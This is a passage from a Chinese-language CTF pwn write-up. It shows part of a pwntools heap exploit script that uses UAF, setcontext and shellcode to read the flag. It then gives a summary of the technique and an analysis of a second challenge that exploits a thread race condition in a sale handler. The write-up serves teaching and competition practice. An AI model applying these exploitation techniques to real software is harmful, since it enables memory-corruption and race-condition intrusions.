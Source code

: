 ```python
print str(frame)[0x28:]
payload = p64(0x12345678) + p64(0x10630 + heapbase + 0x10) + p64(0x0) * 0x4 + p64(magic_addr) + str(frame)[0x28:]
payload = payload.ljust(0x150, 'a')

gdb.attach(sh)
Edit(20, payload + p64(heapbase + 0x10630 + 0x158) + asm(shellcode))
# gdb.attach(sh, 'b * {0}'.format(Exchange_Addr))
# Dele(201)
# now = 1
 
Dele(20)

sh.interactive()

```

## 总结

题目出的新颖，巧妙利用二叉树合并的过程制造UAF漏洞，题目还加了基础check来检测节点是否合法，将栈迁移到堆上进行rop去orw。不能getshell的前提下可以修改freehook为setcontext去在堆上制造orw读取flag。

## 出题思路

1. 二叉搜索树下制造UAF
2. 沙箱禁用excve，制造orw
# PWN -> thread (线程、临界资源)

## 题目分析

ida打开程序可以看到初始balance=1000，当balance>10001的时候，会读取flag，再看sale函数是按原价的9折卖出的，根本不可能大于1000，此时注意到sale函数中

```c
void *Sale_Handler(void *arg)
{
    balance += Size * 90;
    sleep(1);
    Size = 0;
}

```

加上balance后sleep(1),之后才size = 0，而且程序是用线程处理的，可以实现买一次，在1秒内卖两次就可以使得balance>1000,从而换取读取flag

```c
void Buy_Flag()
{
    if (balance >= 1001)
    {
        int fd = open("./flag", 0);
        char buf[0x30];
        read(fd, buf, 0x30);
        write(1, buf, 0x30);
        close(fd);
        balance -= 1001;
    }
    else
    {
        puts("Your don't have enough money!");
    }
}
```
